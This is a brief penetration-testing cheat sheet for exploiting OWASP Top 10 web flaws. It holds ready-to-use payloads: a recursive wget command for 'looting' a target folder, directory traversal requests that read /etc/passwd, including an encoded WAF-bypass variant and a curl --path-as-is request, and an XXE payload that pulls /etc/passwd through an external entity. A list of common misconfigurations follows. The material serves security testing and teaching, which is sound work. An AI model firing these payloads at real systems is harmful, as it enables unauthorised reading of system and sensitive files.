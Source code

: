 # Intro

This is a cheat sheet for exploitation of OWASP Top 10.

It is the followed by more refined attacks. 

## Looting

This ia gonna loot a `/folder` 

```bash
wget -r -np -R "index.html*" https://target.to.loot/folder/
```


## Directory traversal

Find parameters vulnerable to `../`

You may need to bypass WAF

`http://localhost/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`

Or to provide path as is 

`curl --path-as-is http://localhost:3000/public/plugins/alertlist/../../../../../../../../etc/passwd`

Enjoy reading sensitive information.

## XXE injection

It arises from exploiting parsing of ENTITY element. It can be prevented by smart conding practices depending on language used: https://brightsec.com/blog/xxe-prevention/

For payloads refer to: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#exploiting-xxe-to-retrieve-files

1. Detect XXE
```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```
2. Exploit 
`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>`

## Security Misconfigurations

* Accessible S3 Buckets
* Non functional additional features enabled: like status pages, accounts or privileges
* Default credentials
* Verbose error messages disclosing system properties
* Not using HTTP and cookies security headers
* Non patched systems

